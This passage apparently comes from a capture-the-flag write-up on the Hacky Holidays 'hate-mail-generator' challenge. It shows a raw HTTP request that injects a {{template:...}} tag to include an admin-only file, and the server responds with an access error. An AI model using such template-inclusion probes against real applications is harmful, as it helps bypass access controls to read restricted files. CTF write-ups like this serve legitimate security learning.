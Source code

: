 + So I looked at it and saw this file "38dhs_admins_only_header.html" as it was interesting, however visiting the page directly gave 403 error.

**Request**

https://hackyholidays.h1ctf.com/hate-mail-generator/templates/38dhs_admins_only_header.html

**Response**

{F1139433}

+ I know this was not going to be easy, so the next idea that came to my mind is to directly insert "38dhs_admins_only_header.html " inside the template parameter on the  "preview_markup".

**Request**

```http
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
Content-Length: 134
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://hackyholidays.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://hackyholidays.h1ctf.com/hate-mail-generator/new
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

preview_markup=Hello{{name}}{{template:38dhs_admins_only_header.html}}{{email}}&preview_data={"name":"Alice","email":"alice@test.com"}
```

**Response**

```http

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 31 Dec 2020 12:23:44 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 64

You do not have access to the file 38dhs_admins_only_header.html
```

+ I was like hmm, this also failed as it says about access error.
